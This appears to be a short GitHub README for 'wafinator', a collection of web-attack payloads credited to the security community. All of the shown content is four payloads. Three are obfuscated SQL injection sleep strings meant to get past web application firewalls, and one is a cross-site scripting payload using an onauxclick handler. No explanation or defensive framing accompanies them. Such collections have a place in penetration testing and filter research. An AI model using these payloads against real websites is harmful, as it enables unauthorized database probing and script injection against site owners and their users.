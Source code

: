 # wafinator
Collection of payloads from everywhere. The maintainer is glad to *sec community for sharing their paylaods.


-SleEp(0x2);--<br>
-slEEp("5A");--<br>
-SleEP/\*(\*/(5);--<br>
J<d3v/onauxclick=[2].some(confirm)>O<br>
